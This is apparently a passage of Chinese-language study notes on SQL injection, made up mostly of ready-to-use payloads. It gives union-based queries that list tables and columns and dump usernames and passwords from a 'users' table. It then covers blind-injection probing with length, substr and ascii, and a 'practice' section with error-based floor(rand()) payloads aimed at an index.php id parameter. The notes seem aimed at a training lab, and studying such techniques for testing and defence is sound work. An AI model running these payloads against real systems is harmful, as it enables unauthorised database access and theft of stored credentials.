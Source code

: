 这个语句中，会进行两次随机数计算，有可能会出错

```
group by
select job,count(*) from table1 group by job;
```

此时group by会按照字母大小写进行排序

------

```
select * from 表 where id = '1'  --+' limit 0,1
```

order by 3 正确，发现有3列

```
id=-1' union select 1,table_name,3 from information_schema.tables where table_schema='security' limit 0,1 --+

id=-1' union select 1,column_name,3 from information_schema.columns where table_schema='security' and table_name='users' limit 0,1 --+

id=-1' union select 1,group_concat(usrname),group_concat(password) from users --+
select length(database());
```

取出数据库库名，并且判断有几个字

```
select substr(database(),1,1);
```

截取数据库库名，从第1个字开始截取，截取1个

```
select ascii(substr(database(),1,1));
```

截取出来的字，使用ascii码编码

```
select ascii(substr(database(),1,1)) < 100;
```

------

实战：
爆出库名

```
index.php?id=2' AND (select 1 from (select count(*),concat(0x3a,0x3a,(database()),0x3a,0x3a,floor(rand()*2))a from information_schema.tables group by a)b) --+
```

爆出表名

```
index.php?id=2' AND (select 1 from (select count(*),concat(0x3a,0x3a,(select table_name from information_schema.tables where table_schema='security' limit 0,1),0x3a,0x3a,floor(rand()*2))a from information_schema.tables group by a)b) --+
```
